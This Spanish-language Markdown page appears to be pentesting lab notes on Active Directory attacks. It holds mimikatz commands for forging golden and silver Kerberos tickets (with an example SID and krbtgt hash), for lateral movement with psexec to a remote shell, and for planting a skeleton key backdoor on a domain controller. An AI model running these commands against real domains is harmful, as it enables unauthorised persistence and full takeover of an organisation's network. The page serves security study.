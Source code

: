 ![SID y Hash NTLM de krbtgt](images/golden-sid.png)

Ejecutar:

```bash
kerberos::golden /User:<nombre_de_usuario> /domain:<dominio> /sid:<sid_extraido> /krbtgt:<hash_NTLM> /id:<rid> /ptt
```
Usando `/ptt` para inyectarlo en la sesión actual o sin la bandera para extraerlo a un archivo. Ejemplo:

```bash
kerberos::golden /User:Administrator /domain:dsouls.local /sid:S-1-5-21-1128842135-684543689-3182004798 /krbtgt:cbb7b576e46b82269910709d9d92ef2d /id:500 /ptt
```

Para crear un silver ticket se sustituiría el hash NTLM del servicio en `/krbtgt:<hash>` el SID del servicio en `/sid:<sid>` y cambiar el id por `/id:1103`.

![Golden ticket generado](images/golden-ticket.png)

TODO: Verificar la inyección del ticket desde fuera.

- Levantar una sesión cmd con el ticket creado: `misc::cmd`.
- Visualizar contenido de un cliente perteneciente al dominio: `dir \\SITH\c$`.
- Obtener una shell interactiva en cliente remoto con [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite): `psexec.exe \\SITH cmd.exe`

![Sesión con ticket creado y ejecución de psexec](images/psexec-exe.png)

#### Kerberos Backdoors

Existe una forma más sutil de realizar un ataque similar al del golden y silver ticket  ya que actúa similar a un rootkit implantandose por si mismo en la memoria en el domain forest permitiéndose acceso a cualquier máquina usando una contraseña maestra.

La skeleton key abusa la forma en la que AS-REQ valida los timestamps cifrados y sólo funciona usando el cifrado RC4 de Kerberos.

El hash por defecto para una skeleton key de mimikatz es `60BA4FCADC466C7A033C178194C03DF6` que resulta en la contraseña *mimikatz*.

##### Skeleton Key Overview

De acuerdo a lo antes mencionado, el timestamp es cifrado con el hash NT de los usuarios. El domain controller después intenta descifrar el timestamp con el hash NT del usuario, una vez que la skeleton key sea implantada en el domain controller trata de decifrar el timestamp usando el hash NT del usuario y el hash NT de la skeleton key permitiendo el acceso al domain forest.

##### Ejecución

`misc::skeleton`

TODO: evidencia

#### Abusando de ACLs/ACEs
